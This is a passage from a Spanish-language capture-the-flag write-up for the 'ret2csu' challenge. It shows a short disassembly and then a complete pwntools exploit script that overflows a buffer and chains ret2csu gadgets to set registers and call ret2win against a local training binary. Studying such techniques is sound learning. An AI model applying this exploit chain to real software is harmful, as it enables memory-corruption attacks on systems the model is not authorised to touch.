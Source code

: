 ```
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
│           0x00400600      55             push rbp
│           0x00400601      4889e5         mov rbp, rsp
│           0x00400604      5d             pop rbp
```

R12 debe valer 0x00600df0 ya que apunta a 0x00400600, dirección en la que comienza la función que buscabamos.

### Escribir el exploit

El funcionamiento del exploit es bastante sencillo:

**exploit.py**

```python
#!/usr/bin/python3
from pwn import *

# CONSTANTS
binary = "./ret2csu"
p = process(binary)
e = ELF(binary)
offset = b'A'*32
RBP = b'B'*8

ret2win = hex(e.plt["ret2win"])
log.info("ret2win@plt => {}".format(ret2win))

# DEBUG
script = "b* {}".format(0x40069b)
#gdb.attach(p, gdbscript = script)

# GADGETS
rop = ROP(p.elf)
ret2csu1 = p64(0x40069a)        # pop RBX ; ...
ret2csu2 = p64(0x400680)        # mov RDX, R15 ; ...
pop_rdi = p64(0x4006a3)         # pop RDI ; ret

# ROP CHAIN
rop.raw(ret2csu1)
rop.raw(p64(0x0))       # RBX
rop.raw(p64(0x1))       # RBP
rop.raw(p64(0x600e38))  # R12
rop.raw(p64(0x0))       # R13
rop.raw(p64(0xcafebabecafebabe)) # R14 -> RSI
rop.raw(p64(0xd00df00dd00df00d)) # R15 -> RDX
rop.raw(ret2csu2)
rop.raw(b'\x00'*8*7)
rop.raw(pop_rdi)
rop.raw(p64(0xdeadbeefdeadbeef))
rop.raw(p64(int(ret2win, 16)))

# PWN
print(p.recvuntil("> ").decode("utf-8"))
p.sendline(offset + RBP + rop.chain())

print(p.recvline().decode("utf-8"))
log.success('flag: {}'.format(p.recvline().decode("utf-8")))
p.close()
```

Esta serie de desafíos me ha parecido bastante útil para entender mejor el ROP en x64 y sobre todo, bastante divertida.

